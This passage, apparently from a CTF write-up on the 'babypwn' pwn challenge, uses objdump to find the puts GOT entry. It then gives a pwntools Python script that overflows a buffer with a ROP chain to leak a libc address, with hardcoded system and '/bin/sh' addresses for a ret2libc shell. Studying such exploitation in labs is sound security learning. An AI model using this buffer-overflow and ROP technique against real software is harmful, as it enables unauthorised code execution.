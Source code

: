 


let's get GOT first 
```python
vagrant@vagrant:~/pwn/pwn_university2018/babypwn$ objdump -R ./babypwn | grep put
0000000000403fc8 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5

```

Now we need to use put@plt in order to make the leak happen and print put@got pointer after that we can calculate to get the base address. Here we go now let's improve our exploit and make some modify on it 


```python


from pwn import *



def exploit(r):


	system = p64(0x7ffff7a52390)
	sh = p64(0x7ffff7b99d57)
	poprdi = p64(0x0000000000401203)
	junk = "\x90" * 136
	puts_plt = p64(0x401030)
	puts_got = p64(0x0000000000403fc8)
	main = p64(0x0000000000401169)
	r.sendline(junk + poprdi + puts_got + puts_plt + main)

	r.interactive()
if __name__ == '__main__':

    if(len(sys.argv) > 1):

        r = remote(HOST,PORT)
    
        exploit(r)
    else:
        file = 'babypwn'
        binary = os.getcwd() + '/' + str(file)
        r = process(binary)
        print(util.proc.pidof(r))
        pause()
        exploit(r)




```
